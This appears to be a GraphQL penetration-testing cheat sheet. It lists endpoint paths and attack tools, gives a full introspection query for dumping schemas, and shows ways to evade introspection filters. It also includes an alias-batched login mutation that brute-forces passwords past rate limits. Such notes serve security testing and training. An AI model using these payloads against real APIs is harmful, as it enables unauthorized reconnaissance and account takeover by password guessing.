 # Content
- [Common endpoint names](#common-endpoint-names)
- [Discovering schema information](#discovering-schema-information)
- [Bypassing GraphQL introspection defenses]()

## Common endpoint names 
- /graphql
- /api
- /api/graphql
- /graphql/api
- /graphql/graphql
also try appending /v1 to the path.


## tools 
- [graphql-voyager is tool for Visualization](https://graphql-kit.com/graphql-voyager/)
- [graphw00f](https://github.com/dolevf/graphw00f)
- [graphql-threat-matrix](https://github.com/nicholasaleks/graphql-threat-matrix)
- [GraphQLmap](https://github.com/swisskyrepo/GraphQLmap)
- [batchql](https://github.com/assetnote/batchql)


## Exploiting unsanitized arguments 
check for  Broken access control vulnerabilities or IDOR

## Discovering schema information 

### using Introspection
get names of all available queries. 
```graphql
    {
        "query": "{__schema{queryType{name}}}"
    }
```
get full scheme
```graphql
 query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```
### using Suggestions
this tool [Clairvoyance](https://github.com/nikitastupin/clairvoyance) can get the scheme info using suggestions 


## Bypassing GraphQL introspection defenses
- **manpulate the query**
You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.


for example if `__schema{` is ignored , try
```graphql

    {
        "query": "query{__schema
        {queryType{name}}}"
    }

```

- **change request method or type**

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

- **use aliases to bypass ratelimit**
```graphql
mutation {

bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }


bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }
}
```
